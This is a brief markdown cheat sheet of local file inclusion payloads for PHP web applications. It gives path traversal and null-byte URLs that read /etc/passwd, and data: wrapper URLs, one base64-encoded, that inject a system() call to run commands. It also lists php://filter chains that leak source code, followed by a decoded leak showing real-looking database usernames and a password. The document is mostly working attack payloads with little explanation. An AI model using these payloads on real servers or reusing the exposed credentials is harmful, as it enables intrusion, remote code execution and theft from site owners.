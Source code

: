 # LFI examples

*akech.com/index.php?token=`/etc/passwd%00`*

*akrech.com/index.php?page=`../../../../../../etc/passwd`*

```
http://www.test.com.ar/main.php?pagina=data:text/plain,<?system($_GET['x']);?>&x=ls
```
```
http://www.test.com.ar/main.php?pagina=data:,<?system($_GET['x']);?>&x=ls
```
```
http://www.test.com.ar/main.php?pagina=data:;base64,PD9zeXN0ZW0oJF9HRVRbJ3gnXSk7Pz4=&x=ls
```
-------------------------------------------------------------------------------------------------------------
# PHP filters for LFI

```
php://filter/convert.base64-encode/resource=
```

```
php://filter/read=string.rot13/resource=
```

*example input:*

example.com/index.php?page=`php://filter/read=string.rot13/resource=`index.php

example.com/index.php?page=`php://filter/convert.base64-encode/resource=`index.php

*example output:*

```
PD9waHAKJGRiX25hbWU9ImJpaHRhcHViX2RiIjsKaWYoJF9TRVJWRVJbIlNFUlZFUl9BRERSIl09PSIxMjcuMC4wLjEiKQoJJGNvbj1teXNxbF9jb25uZWN0KCJsb2NhbGhvc3QiLCJyb290IiwiIik7CmVsc2UKCSRjb249bXlzcWxfY29ubmVjdCgibG9jYWxob3N0IiwiYmlodGFwdWJfYWRtaW4iLCJCUFNAMjAxMyIpOwppZighJGNvbikKCXsKCWRpZSgiRXJyb3IgaW4gY29ubmVjdGlvbiIubXlzcWxfZXJyb3IoKSk7Cgl9Cm15c3FsX3NlbGVjdF9kYigiJGRiX25hbWUiKW9yIGRpZSgiY2Fubm90IHNlbGVjdCBEQiIpOwo/
```

*decode*
```php
<?php
$db_name="bihtapub_db";
if($_SERVER["SERVER_ADDR"]=="127.0.0.1")
   $con=mysql_connect("localhost","root","");
else
   $con=mysql_connect("localhost","bihtapub_admin","BPS@2013");
if(!$con)...
.
.
?>

```
